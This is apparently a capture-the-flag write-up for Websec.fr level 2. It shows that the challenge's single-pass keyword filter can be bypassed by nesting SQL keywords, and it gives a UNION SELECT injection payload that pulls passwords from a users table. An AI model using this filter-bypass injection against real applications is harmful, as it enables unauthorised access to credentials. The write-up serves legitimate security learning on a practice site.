 ```yaml
---
title: Websec.fr level 2 - easy
date: April 13, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/4634a32a-6f5e-49bc-8b41-81c31d8ed7a2)

The application is really the same in [level 1](https://websec.fr/level01/source.php) but there is only 1 difference

```php
$searchWords = implode (['union', 'order''select', 'from', 'group', 'by'], '|');
$injection = preg_replace ('/' $searchWords . '/i', '', $injection);
```

They are replacing every instance of the 'searchWords' with an empty string with <b>preg_replace</b>. But ! preg_replace only replaces one instance of the word it finds. So, for instance :

```php
<?php
$searchWords = implode('|', ['union', 'order', 'select', 'from', 'group', 'by']);
$injection = "SELSELECTECT";
$injection = preg_replace('/' . $searchWords . '/i', '', $injection);
echo $injection;
?>
```

We get  ```SELECT```. Meaning, we can switch every word in our solution query from [level 1](https://eladyesh.github.io/posts/websec-1/) with a double instance of the word itself. Let's see


```php
$union = "UNIUNIONON";
$select = "SELSELECTECT";
$from = "FRFROMOM";
echo "1 $union $select id, password $from users WHERE id=1";
```

we get ```1 UNIUNIONON SELSELECTECT id, password FRFROMOM users WHERE id=1```

Paste, and we get

![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/bcaa26b5-5765-4887-809b-e4384439c0dd)


Great ! Thanks for reading.

